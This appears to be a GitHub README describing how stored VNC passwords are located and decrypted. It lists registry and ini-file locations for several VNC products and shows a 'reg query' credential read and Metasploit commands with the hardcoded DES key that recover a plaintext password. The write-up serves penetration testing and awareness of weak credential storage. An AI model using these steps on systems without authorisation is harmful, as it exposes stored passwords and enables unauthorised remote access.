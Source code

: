 GitHub - frizb/PasswordDecrypts: Handy Stored Password Decryption Techniques

##  README.md

# [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='39'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='590' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/frizb/PasswordDecrypts#passworddecrypts)PasswordDecrypts

Handy Stored Password Decryption Techniques

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='40'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='593' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/frizb/PasswordDecrypts#vnc)VNC

VNC uses a hardcoded DES key to store credentials. The same key is used across multiple product lines.

*RealVNC*
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
Value: Password
*TightVNC*
HKEY_CURRENT_USER\Software\TightVNC\Server
HKLM\SOFTWARE\TightVNC\Server\ControlPassword
tightvnc.ini
vnc_viewer.ini
Value: Password or PasswordViewOnly
*TigerVNC*
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
Value: Password
*UltraVNC*
C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='41'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='615' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/frizb/PasswordDecrypts#test-case)Test Case

I downloaded TightVNC version 2.8.11 and found my password was stored here: HKLM\SOFTWARE\TightVNC\Server\ControlPassword so I used reg query to extract the encrypted password:

	Microsoft Windows [Version 10.0.17134.590]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

	HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
	--- SNIP ---
	    Password    REG_BINARY    D7A514D8C556AADE
	    ControlPassword    REG_BINARY    1B8167BC0099C7DC
	--- SNIP ---

With the encypted VNC password: D7A514D8C556AADE

I was able decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:

fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'

Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey

$> msfconsole
msf5 > irb
[*] Starting IRB shell...

[*] You are in the "framework" object>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07" =>  "\u0017Rk\u0006#NX\a">> require 'rex/proto/rfb' =>  true>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey

=>  "Secure!\x00">>